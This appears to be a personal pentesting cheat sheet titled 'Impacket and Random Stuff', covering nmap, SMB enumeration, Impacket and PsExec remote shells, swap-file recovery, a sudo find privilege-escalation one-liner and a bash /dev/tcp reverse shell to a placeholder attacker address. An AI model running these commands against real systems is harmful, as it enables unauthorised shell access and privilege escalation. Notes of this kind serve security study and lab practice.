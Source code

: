 ```yaml
---
title: "Impacket and Random Stuff"
tags:
  - hacking
programming-languagues:
created: 2022-07-08
---
```

## Nmap
- Can use the `-Pn` switch to enumerate machines when packets are blocked by firewall.

## SMB
- Sever Message Block
- Usually port 445

```bash
smbclient -L {taget_IP} -U Administrator
```

## Impacket
It is a framework written in Python for working with network protocols. It is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB and MSRPC) the protol implementation itself. 

Contains dozens of amazing tools for interacting with Windows systems and applications, many of which are ideal for attacking Windows and Active Directory.

**Impacket** creates a remote service by uploading a randomly-named executable on the ADMIN$ share on the remote system and then register it as a Windows service.This will result in having an interactive shell available on the remote Windows system via TCP port 445 .  

**PsExec** is  a portable tool that lets you run processes remotely using any user's credentials.

It requires credentials for a user with local administrator privileges or higher since reading/writing to the ADMIN$ share is required. Once you successfully authenticate, it will drop you into a NT   AUTHORITY\SYSTEM shell.

## Reversed File
```bash
strings login.php.swp >> file.txt  
tac file.txt
```

## Privilege Escalation
Using the find command:

```bash
sudo find . -exec /bin/sh \; -quit
```

## Reverse Shell
```bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```

## More random stuff
List strings in the file:

```bash
strings -n 10 <filename>
```